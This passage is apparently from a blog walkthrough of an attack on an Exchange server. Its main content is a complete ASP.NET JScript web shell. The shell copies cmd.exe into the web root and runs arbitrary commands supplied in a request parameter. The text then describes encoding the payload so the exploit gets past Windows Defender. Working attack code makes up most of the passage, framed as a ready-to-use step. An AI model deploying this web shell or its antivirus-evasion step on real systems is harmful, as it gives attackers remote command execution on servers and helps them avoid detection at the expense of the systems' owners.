 
- let's prepare our new payload 

```bash
<asp:Label ID="lblOutput" runat="server" Text="" />
<script language='JScript' runat='server'>
function Page_Load(){
  try {
      var fso = new ActiveXObject("Scripting.FileSystemObject");
      var sourcePath = "C:\\Windows\\System32\\cmd.exe";
      var destPath = Server.MapPath("./runme.exe");
      fso.CopyFile(sourcePath, destPath, true);
  } catch (e) {
      lblOutput.Text = "Error copying file: " + e.message;
      return;
  }

  var command = Request["exec_code"];
  if (!command || command == "") {
      lblOutput.Text = "<br>Please provide a command as a request parameter exec_code.";
      return;
  }
  
  try {
      var psi = new System.Diagnostics.ProcessStartInfo();
      psi.FileName = Server.MapPath("./runme.exe");
      psi.Arguments = "/c " + command;
      psi.RedirectStandardOutput = true;
      psi.UseShellExecute = false;
      psi.CreateNoWindow = true;
      
      var process = new System.Diagnostics.Process();
      process.StartInfo = psi;
      process.Start();
      var output = process.StandardOutput.ReadToEnd();
      process.WaitForExit();
      
      lblOutput.Text = output;
  } catch (e) {
      lblOutput.Text += "<br>Error: " + e.message;
  }
}
</script>
```

- we can now encode the payload with our new script and change the payload in the exploitation script to run the full exploit without trouble on windows defender.

![change_payload.png](/assets/blog/EXCHANGE/change_payload.png)
